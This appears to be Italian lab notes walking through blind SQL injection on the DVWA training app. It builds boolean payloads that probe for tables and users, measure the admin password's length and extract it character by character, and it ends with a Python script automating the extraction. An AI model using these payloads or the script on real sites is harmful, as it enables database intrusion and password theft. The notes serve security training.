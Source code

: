 #+TITLE: DVWA Blind SQLi Easy
#+AUTHOR: Leonardo Tamiano

* Introduzione
   Per forzare condizione vera

   #+begin_example
1' AND 1=1 #    
   #+end_example

   Per forzare condizione falsa

   #+begin_example
1' AND 1=0 #    
   #+end_example

   --------------

* Q1: esistenza tabelle

 Per indovinare esistenza tabelle. Se risponde exists, allora la
 tabella esiste, altrimenti la tabella non esiste.

 #+begin_example
1' AND (select 'x' from users LIMIT 1) = 'x' #
1' AND (select 'x' from guestbook LIMIT 1) = 'x' #   
 #+end_example

 Da notare il guess sta dopo il from interno. 

 #+begin_example
   from users LIMIT 1 ---> sto testando il guess "esiste la tabella users?"
   from guestbook LIMIT 1 ---> sto testando il guess "esiste la tabella guestbook?"   
 #+end_example

 L'idea è quella di codificare la domanda "esiste la tabella TABLE"?
 nella seguente forma
   
 #+begin_example
1' AND (select 'x' from <TABLE> LIMIT 1) = 'x' #   
 #+end_example

 --------------

 Per indovinare nomi utenti nella tabella users.

* Q2: utenti in tabella users
  Il payload per verificare la presenza di un utente ~<USER>~ nella
  tabella ~users~ è la seguente

  #+begin_example
    1' AND (select 'x' from users where first_name='<USER>' LIMIT 1) = 'x' #
  #+end_example

  Ad esempio:

  - verificare presenza utente ~admin~ nella tabella ~users~

    #+begin_example
1' AND (select 'x' from users where first_name='admin' LIMIT 1) = 'x' #      
    #+end_example

  - verificare presenza utente ~asd~ nella tabella ~users~

    #+begin_example
1' AND (select 'x' from users where first_name='asd' LIMIT 1) = 'x' #      
    #+end_example

* Q3: Controllare lunghezza password utente admin nella tabella users
  Per capire la lunghezza della password l'idea è di codificare una
  serie di domande:

  Q1) La lunghezza della password dell'utente admin nella tabella
  users è > 1?

  Q2) La lunghezza della password dell'utente admin nella tabella
  users è > 2?

  Q3) La lunghezza della password dell'utente admin nella tabella
  users è > 3?

  Quindi la domanda generale è la seguente

  Qi) La lunghezza della password dell'utente admin nella tabella
  users è > i?

  Tale domanda può essere codificata nel seguente payload

  #+begin_example
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > i LIMIT 1) = 'x' #     
  #+end_example
    
  A questo punto l'idea è quella di inviare una serie di query

  #+begin_example
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 1 LIMIT 1) = 'x' #


1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 2 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 3 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 4 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 5 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 6 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 7 LIMIT 1) = 'x' #
...
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 30 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 31 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 32 LIMIT 1) = 'x' #      
  #+end_example

  E alla fine scopro che la password dell'utente admin è proprio lunga 32.

* Q4: Estrazione password admin nella tabella users
  L'idea è sempre quella di codificare dentro SQL la seguente domanda

  Q1) Il primo carattere della password dell'utente admin nella
  tabella users è proprio 'a'?

  Q2) Il primo carattere della password dell'utente admin nella
  tabella users è proprio 'b'?

  ...

  Q3) Il primo carattere della password dell'utente admin nella
  tabella users è proprio 'z'?

  In generale mi possono chiedere se l'i-esimo carattere della
  password di admin nella tabella users sia proprio il carattere <c>

  Q) Il carattere i-esimo della password dell'utente admin nella
  tabella users è proprio <c>?

  Tale domanda può essere codificata nel seguente payload

  #+begin_example
1' AND (select 'x' from users where first_name='admin' and substring(password, i, 1) = <c> LIMIT 1) = 'x' #    
  #+end_example

  Per esempio possiamo scoprire che il primo carattere della
  password di admin nella tabella users è il carattere '5' in quanto
  il server risponde "user exists" con il seguente payload
    
  #+begin_example
1' AND (select 'x' from users where first_name='admin' and substring(password, 1, 1) = '5' LIMIT 1) = 'x' #        
  #+end_example

  Continuando, possiamo scoprire che il secondo carattere della
  password di admin nella tabella users è il carattere 

  #+begin_example
1' AND (select 'x' from users where first_name='admin' and substring(password, 2, 1) = 'f' LIMIT 1) = 'x' #        
  #+end_example

  Ovviamente questo procedimento necessita di essere automatizzato.

* Codice python
  Le domande di prima, e in particolare il processo di calcolo della
  lunghezza della password e dell'estrazione della password possono
  essere automatizzati come segue

  #+begin_src python
#!/usr/bin/env python3

import requests

URL = "http://evil.com/dvwa/vulnerabilities/sqli_blind/"

CUSTOM_HEADERS = {
    "Cookie": "security=low; PHPSESSID=e8hut8pjnkk4ps2b42bce1ubrl"
}

MAX_PASSWORD_LENGTH = 1024
ALPHABET = "-_" + "0123456789" + "abcdefghijklmnopqrstuvwxyz" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ"

def get_password_length(username):
    global URL, CUSTOM_HEADERS, MAX_PASSWORD_LENGTH
    for i in range(1, MAX_PASSWORD_LENGTH):
        sqli_payload = f"1' AND (select 'x' from users where first_name='{username}' and LENGTH(password) > {i} LIMIT 1) = 'x' # "
        params = {"id": sqli_payload, "Submit": "Submit" }
        r = requests.get(URL, params=params, headers=CUSTOM_HEADERS)
        if "MISSING" in r.text:
            return i

def get_password(username):
    global URL, CUSTOM_HEADERS, ALPHABET 
    
    password_length = get_password_length(username)
    password = ""
    print(f"[{username}]: La lunghezza della password è {password_length}")

    for i in range(1, password_length + 1):
        for c in ALPHABET:
            sqli_payload = f"1' AND (select 'x' from users where first_name='{username}' and substring(password, {i}, 1) = '{c}' LIMIT 1) = 'x' # "
            params = {"id": sqli_payload, "Submit": "Submit" }
            r = requests.get(URL, params=params, headers=CUSTOM_HEADERS)
            if "exists" in r.text:
                password = password + c
                print(c, end="", flush=True)
                break
    print()
    return password

if __name__ == "__main__":
    users = ["admin", "Bob", "Pablo", "Gordon"]
    for user in users:
        password = get_password(user)
        print(f"L'utente {user} ha la password: {password}")    
  #+end_src

